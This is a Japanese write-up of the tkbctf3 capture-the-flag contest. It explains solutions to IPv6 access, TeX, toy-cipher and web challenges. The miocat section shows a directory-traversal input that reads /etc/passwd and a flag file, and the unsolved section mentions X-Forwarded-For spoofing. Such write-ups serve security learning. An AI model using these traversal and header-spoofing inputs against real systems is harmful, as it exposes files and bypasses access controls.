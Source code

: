 ```yaml
---
layout: post
title: tkbctf3 の write-up
categories: [ctf]
date: 2014-05-06 03:47:00 +0900
---
```


チーム nyoronyoro として参加した。最終的に獲得できたポイントは 650 点でチーム順位は 14 位だった。  
Our Future (Network 100), Real World TeX (Misc 100), The Deal (Crypto 200), miocat(Web 250) の 4 問を解いた。

## 解けた問題

### Our Future (Network 100)
普通に future.tkbctf.info にアクセスすると `Nope, this is not what you're looking for. Try another way!` と表示される。

another way って何だろうと思いながら `nslookup future.tkbctf.info` すると、IPv6 のアドレスが出てきた。  
IPv6 でアクセスしろということなのかと考えて、[IPv6 Proxy](http://www.ipv6proxy.net/) を通して future.tkbctf.info を閲覧。  

```
Good job, you are accessing via IPv6.

KEY: InexhaustibleEnergy
```
と表示された。

### Real World TeX (Misc 100)
`real-world.tex` という TeX ファイルが渡される。

そのままコンパイルすると怒られてしまったのでファイルの前に

```
\documentclass{article}
\begin{document}
```

を、後ろに

```
\end{document}
```

を追加して `platex real-world.tex` する。

`evince real-world.dvi` してみると、

```
"Most programming languages are partly a way of expressing things in
terms of other things and partly a basic set of given things."

ISMIM is the keyword of this question!
```

ここで `ISMIM` じゃなくて `ISWIM` なのではとか考えて両方を試した(と思う)。  
記憶が曖昧でどっちが正解だったかは覚えていない。ごめんなさい。

この問題にはフラッグが 2 つあって、2 つ目のフラッグは `real-world.idx` にあった。

```
Land1n is another keyword!
```

### The Deal (Crypto 200)
暗号化された文章とその文章の暗号化に使われたツールの URL が渡されるので、その文章を復号しろという問題。

平文を `A` に、パスワードを空にして入力すると `35.30` と表示された。  
もう一度同じ入力をすると `31.34` と表示された。

また、平文を `A` に、パスワードを `A` にして入力すると `28.102` と表示された。

しばらく考えて、次のような方法で暗号が行われているのではないかと推測した。

```javascript
function toCharCodeArray(str) {
  return str.match(/./g).map(function (c) {
    return c.charCodeAt(0);
  });
}

function sum(ary) {
  return ary.reduce(function (p, c) {
    return p + c;
  }, 0);
}

function rand(max) {
  return Math.floor(Math.random() * (max + 1));
}

function encrypt(plain, pass) {
  var key;

  plain = toCharCodeArray(plain);
  pass = toCharCodeArray(pass || '');

  key = sum(pass);

  return plain.reduce(function (p, c) {
    var r;

    c += key;
    r = rand(c);

    p.push(r, c - r);

    return p;
  }, []).join('.');
}

encrypt('A'); // => '45.20'
encrypt('A', 'key'); // => '370.24'
encrypt('test', 'key'); // => '99.346.220.210.418.26.98.347'
```

ここで、次のように 2 個ずつ足し合わせる関数を書く。

```javascript
function plus(text) {
  return text.match(/\d+\.\d+/g).map(function (m) {
    return eval(m.replace(/\./g, '+'));
  });
}
```

次のように頻出する数字を調べる関数を書く。

```javascript
function freq(ary) {
  return ary.reduce(function (p, c) {
    p[c] = p[c] == null ? 1 : p[c] + 1;
    return p;
  }, {});
}
```

`freq(plus('520.421.926.48...'))` を実行すると、与えられた暗号文中で最も出現した値が `905` であることが分かる。
この `905` は ` (半角スペース)` であると推測し、最終的に次のようなスクリプトを用いて暗号文を解読した。

```javascript
var text = '520.421.926.48.56.914.402.585.81.824.826.115.515.472.522.397.116.789.415.525.273.711.660.324.927.58.826.148.87.900.849.68.89.794.117.766.492.465.123.854.92.878.510.473.744.236.359.546.305.689.915.69.344.646.768.137.126.865.585.389.430.557.727.267.174.731.982.0.472.518.949.23.75.902.335.570.603.372.864.120.716.271.465.440.831.163.774.210.22.968.587.400.92.813.563.414.72.912.628.360.290.699.782.203.675.303.114.875.200.770.68.913.535.443.62.927.164.830.241.664.359.617.575.412.860.110.493.490.669.320.374.604.283.700.524.452.32.873.386.596.443.531.262.643.299.690.162.815.165.809.513.392.6.970.628.359.301.669.752.221.759.215.133.772.810.165.227.757.841.146.894.11.597.352.576.402.602.381.196.778.215.755.266.721.378.527.198.740.785.196.236.740.199.775.339.632.619.368.157.813.677.228.609.337.678.241.7.876.809.137.149.756.494.498.608.362.16.972.681.224.814.157.691.279.73.900.512.393.947.23.715.274.760.145.355.623.661.328.772.133.688.300.224.760.89.816.464.518.889.101.77.895.560.417.740.165.688.301.371.606.559.411.237.752.365.540.221.757.497.492.202.703.577.400.55.915.55.933.566.339.132.845.515.463.360.623.643.330.447.527.9.978.569.405.241.732.483.422.221.761.172.802.822.83.620.356.296.691.589.381.835.138.701.289.516.454.764.225.272.706.670.313.200.776.864.41.946.29.795.189.465.522.599.306.70.924.477.497.33.937.281.706.581.407.326.593.234.649.599.339.387.601.450.455.791.201.169.805.424.481.72.898.789.187.256.731.762.212.51.923.201.772.164.753.544.361.484.462.141.771.431.551.761.144.817.159.605.379.515.463.981.2.149.827.374.531.513.476.103.881.511.394.463.522.839.131.215.779.385.520.151.843.30.954.93.897.415.490.350.559.475.451.613.304.371.550.326.595.593.328.310.595.391.587.472.511.232.673.663.309.419.558.510.464.939.33.147.833.416.489.23.952.385.599.257.730.710.195.321.668.562.415.117.857.143.762.78.896.11.982.962.27.304.683.692.278.660.245.126.846.75.912.545.429.959.14.946.32.939.50.659.260.148.757.132.814.831.158.757.155.576.412.186.719.377.601.614.369.200.788.714.264.3.970.907.67.578.327.589.400.330.647.518.456.372.533.86.888.287.696.898.93.680.294.935.46.891.93.763.222.396.578.278.639.346.559.545.426.633.341.93.896.803.189.373.601.396.578.406.577.816.89.187.802.633.344.422.552.526.379.500.489.845.147.284.700.474.431.824.163.620.354.530.455.842.142.853.134.792.197.560.345.599.389.380.597.950.24.155.819.812.177.63.925.232.687.107.776.191.761.342.641.35.937.182.792.728.177.310.660.556.420.247.723.585.393.668.315.72.845.437.468.557.432.611.366.608.362.199.784.856.124.524.381.189.805.674.310.597.393.794.111.31.960.446.528.968.19.729.265.351.554.108.874.57.933.822.150.211.766.758.161.584.321.375.571.805.184.837.75.93.895.589.316.382.606.705.285.952.20.389.588.326.579.746.224.590.315.469.518.115.859.32.949.314.664.744.230.879.96.773.146.586.297.224.724.914.28.295.667.80.916.468.475.732.255.420.554.749.225.746.207.817.161.170.825.937.58.563.407.208.698.718.222.445.539.556.426.717.257.53.885.840.143.377.596.262.682.155.819.339.650.220.726.372.617.730.268.850.33.503.380.17.939.917.61.260.723.589.383.676.298.710.277.16.965.33.961.535.382.520.363.814.128.264.723.845.133.456.516.625.280.385.559.202.785.473.505.952.30.242.740.513.370'

var plain = plus(text).map(function (c) {
  return String.fromCharCode(c - (905 - ' '.charCodeAt(0)));
}).join('')

console.log(plain);
```

実行すると次のような文章が表示される。

```
Dear Dr. Cooper,

Thank you very much for your hostpitality granting me the grade for Linear Algebra I.
I was bad at it so much that it has hindered me graduating for years.
As we agreed, I'm going to pay you $5,000 in check for the extra credit. It's inside the envelope, between the two report sheets.
Once again, thank you very much. It's such a relief.
KEY{FreePizza!ComeAndGetIt}

Sincerly,
Eric Grimm
```

### miocat (Web 250)
`hoge` などを入力すると `not acceptable.` と表示される。  
`http://hoge` などを入力すると `Error: NameResolutionFailure` や `Error: ConnectFailure (Connection timed out)` と表示される。

`http://(自分の IP アドレス)` を入力して `nc` コマンドで待ち受けていたものの一向にアクセスが来なかった。

しばらく悩んで `http://` と入力すると `Could not find a part of the path "/home/miocat/http:/".` と表示されることに気付く。  
ディレクトリトラバーサル出来るのではと考えて `http://../../../etc/passwd` と入力。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
miocat:x:1001:1001:Miocat,,,Read /home/miocat/flag:/home/miocat:/bin/bash
chris:x:1000:1000::/home/chris:/bin/bash
```

と表示された。

```
Read /home/miocat/flag:/home/miocat
```

とあるのでそれに従って `http://../flag` と入力。` flag: ElizabethDoesntSayLazy` と表示された。

## 解けなかった問題

### From the Northern Country (Web 100)
北の国から north.tkbctf.info に接続せよという問題。

普通にアクセスすると `This website is only available in DPRK (North Korea).` と表示される。

北の国の proxy を通してアクセスすればいいのではと考えたけど、もちろんそんなものはない。  
終了直前に `X-Forwarded-For` を弄ればいいのではと考えて `X-Forwarded-For: 127.0.0.1` とか色々試してみたものの時間切れ。

[他の方のWrite-up](http://lay.hatenablog.com/entry/2014/05/05/121643)を見る限り、`X-Forwarded-For` を弄るという方向性は間違っていなかったみたい。無念。

### 15-Puzzle (Misc 250)
15 パズル。渡されたパズルの最短手数を求めろという問題。

手動でも出来そうだったので[ソルバ](http://www.ic-net.or.jp/home/takaken/so/15pz/)をダウンロードしてきて挑戦した。

何度か挑戦したものの、毎度毎度途中で入力ミスをしてしまってやり直し。心が折れた。精進。
